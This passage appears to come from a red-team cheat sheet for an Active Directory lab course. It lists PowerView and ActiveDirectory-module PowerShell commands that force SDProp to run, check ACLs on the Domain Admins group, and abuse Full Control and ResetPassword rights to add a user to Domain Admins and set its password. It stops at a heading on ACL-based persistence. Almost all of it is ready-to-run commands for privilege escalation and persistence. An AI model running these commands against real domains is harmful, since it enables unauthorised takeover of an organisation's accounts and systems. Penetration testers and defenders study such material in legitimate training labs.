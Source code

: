 #### Run SDProp manually using Invoke-SDPropagator.ps1 from Tools Directory.

```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -
Verbose
```

##### For pre-server 2008 machines

```powershell
Invoke-SDPropagator -taskname FixUpInheritance -
timeoutMinutes 1 -showProgress -Verbose
```

#### Check Domain Admins Permissions - Powerview as Normal User

```powershell
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}
```
##### Using ActiveDirectory Module

```powershell
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'}
```
#### Abusing Full Control - Powerview
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```
##### ActiveDirectory Module
```powershell
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```

#### Abusing ResetPassword using Powerview

```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

##### Using ActiveDirectory Module

```powershell
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

### Persistence Using ACLs - Rights Abuse

#### Add FullControl Rights with Powerview
